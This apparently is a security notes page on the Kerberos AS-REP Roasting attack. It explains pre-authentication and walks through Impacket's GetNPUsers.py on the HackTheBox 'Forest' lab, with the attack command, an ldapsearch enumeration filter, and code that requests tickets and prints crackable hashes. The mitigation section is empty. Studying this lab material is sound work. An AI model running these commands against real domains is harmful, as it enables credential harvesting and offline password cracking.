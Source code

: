 # AS-REP Roasting Attack

## Pre-authentication

### History

The original Kerberos 4 protocol was susceptible to _offline dictionary and brute-force attacks_, since the KDC happily provides a ticket encrypted with the principals’ secret key to any requestor.

### Kerberos V5

[Kerberos 5](./#as-exchange) introduces _pre-authentication_ which requires that requestors prove their identity before the KDC will issue a ticket for a particular principal.

### Implementation

There are [several types of pre-authentication](https://datatracker.ietf.org/doc/html/rfc4120#section-7.5.2) defined by the Kerberos.

However, only the encrypted timestamp (PA-ENC-TIMESTAMP) pre-authentication method is commonly implemented.

{% embed url="https://learning.oreilly.com/library/view/kerberos-the-definitive/0596004036/" %}

### AS-REQ Review

Pre-authentication is controlled by KDC policy.

1. If a client attempts to request initial tickets through the AS exchange, but the pre-authentication is enabled,
2. then the KDC will send a `KRB_ERROR` message which tells the client that pre-authentication is required instead of an AS\_REP.
3. The client append the required pre-authentication data to its AS\_REQ message this time.
4. If the pre-authentication data is accepted, the KDC responds with an AS reply including the TGT ticket. Otherwise, the KDC will response another KRB\_ERROR message that indicates pre-authentication failed.

## ASREPRoasting Attack

## Tools

### Impacket

We use the script [`GetNPUsers.py`](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py) to conduct the attack, for example in the HackTheBox lab machine [`Forest`](../../../hackthebox/windows/active-directory/forest.md), we use this script to get the TGT ticket for the user `svc-alfresco`:

```bash
$ impacket-GetNPUsers htb.local/svc-alfresco -no-pass -format hashcat
```

After parsing the arguments, the script initializes the class `GetUserNoPreAuth` with domain account credentials:

```python
    try:
        executer = GetUserNoPreAuth(username, password, domain, options)
        executer.run()
```

If a file of user names is provided, the class call its method `reques_users_file_TGTs` to get the TGT ticket for each account name if the pre-authentication is disabled.

```python
    def run(self):
        if self.__usersFile:
            self.request_users_file_TGTs()
            return
```

If `doKerberos` is set _or_ `no_pass` is false, the script will do the LDAP search to find domain accounts:

```python
        # Connect to LDAP
        try:
            ldapConnection = ldap.LDAPConnection('ldap://%s' % self.__target, self.baseDN, self.__kdcIP)
...
        # Building the search filter
        searchFilter = "(&(UserAccountControl:1.2.840.113556.1.4.803:=%d)" \
                       "(!(UserAccountControl:1.2.840.113556.1.4.803:=%d))(!(objectCategory=computer)))" % \
                       (UF_DONT_REQUIRE_PREAUTH, UF_ACCOUNTDISABLE)

        try:
            logging.debug('Search Filter=%s' % searchFilter)
            resp = ldapConnection.search(searchFilter=searchFilter,
                                         attributes=['sAMAccountName',
                                                     'pwdLastSet', 'MemberOf', 'userAccountControl', 'lastLogon'],
                                         sizeLimit=999)
```

Also, we can use this filter with the command `ldapsearch` to get a list of usernames.

{% code overflow="wrap" %}
```bash
$ ldapsearch -H ldap://forest -x "(&(UserAccountControl:1.2.840.113556.1.4.803:=$((0x00010000)))(!(UserAccountControl:1.2.840.113556.1.4.803:=$((0x00000002))))(!(objectCategory=computer)))" -b 'dc=htb,dc=local'
```
{% endcode %}

Either way, the class will call its method `getTGT` to try to get the TGT ticket for an account.

First, the method prepare the AS\_REQ message:

```python
    def getTGT(self, userName, requestPAC=True):
...
        asReq = AS_REQ()
...
        # from pyasn1.codec.der import decoder, encoder
        message = encoder.encode(asReq)
```

Then it sends the `AS_REQ`, receives, and parses the \`AS\_REP\` response:

```python
        try:
            r = sendReceive(message, domain, self.__kdcIP)
...
        # This should be the PREAUTH_FAILED packet or the actual TGT if the target principal has the
        # 'Do not require Kerberos preauthentication' set
        try:
            asRep = decoder.decode(r, asn1Spec=KRB_ERROR())[0]
```

Finally, the script outputs the TGT ticket:

```python
        if self.__outputFormat == 'john':
            # Let's output the TGT enc-part/cipher in John format, in case somebody wants to use it.
            return '$krb5asrep$%s@%s:%s$%s' % (clientName, domain,
                                               hexlify(asRep['enc-part']['cipher'].asOctets()[:16]).decode(),
                                               hexlify(asRep['enc-part']['cipher'].asOctets()[16:]).decode())
        else:
            # Let's output the TGT enc-part/cipher in Hashcat format, in case somebody wants to use it.
            return '$krb5asrep$%d$%s@%s:%s$%s' % ( asRep['enc-part']['etype'], clientName, domain,
                                                   hexlify(asRep['enc-part']['cipher'].asOctets()[:16]).decode(),
                                                   hexlify(asRep['enc-part']['cipher'].asOctets()[16:]).decode())
```

## Mitigation
